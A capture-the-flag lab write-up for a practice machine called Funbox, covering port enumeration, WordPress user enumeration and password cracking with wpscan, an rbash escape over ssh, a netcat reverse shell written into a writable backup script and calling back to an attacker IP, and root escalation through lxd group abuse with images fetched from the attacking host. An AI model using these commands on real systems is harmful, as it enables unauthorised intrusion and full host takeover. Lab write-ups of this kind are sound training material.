



# Funbox

**IP Address:** 192.168.238.77

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 21 | ftp | ProFTPD |
| 22 | ssh | OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0) |
| 80 | http | Apache httpd 2.4.41 ((Ubuntu)) |
| 33060 | socks5 | |

## Exploitation
### Exploit Details (Weak Credentials)
* **Name** - Weakk Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. We can enumerate users on this host buy using the wpscan script. 

Commands
```
wpscan --url http://funbox.fritz.box --enumerate u
```



2. We can easily crack the passwords of both accounts using wpscan again. 

Commands
```
echo 'admin' > users.txt
echo 'joe' >> users.txt
wpscan --url http://funbox.fritz.box -U users.txt -P /usr/share/wordlists/rockyou.txt
```




3. We can use the found credentials or joe to login. Enusre to use the '-t "bash --noprofile" option when using ssh to get around the restricted rbash shell. 

Commands
```bash
ssh joe@$ip -t "bash --noprofile"
whoami
cat local.txt
```


## Privilege Escalation #1 (funny)
### Exploit Details (Weak Permissions)
* **Name** - Weak Permissions
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

A backup script can be found in the /home/funny/.backup.sh location. We have write permissions to this file so we can insert a reverse shell payload. 

Commands
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.238 53 >/tmp/f' > /home/funny/.backup.sh
whoami
```


## Privilege Escalation #2 (root)
### Exploit Details (Weak Permissions (lxd group))
* **Name** - Weak Permissions (lxd group)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Download an initialize the images from the attacking host. 

Commands
```bash
wget http://$lhost/linux/privesc/lxd/lxd.tar.xz
wget http://$lhost/linux/privesc/lxd/rootfs.squashfs
export PATH=$PATH:/snap/bin
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
```



2. Configure storage, configure mount path, then start container and gain a shell inside the container. 

Commands
```bash
lxd init
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
cat /mnt/root/root/proof.txt
```


## Loot
```
local.txt
2721104ed738bbd429d734ab7e1fdf86
proof.txt
72a3ae293c7def4920c5a0bdbcca7b9e
```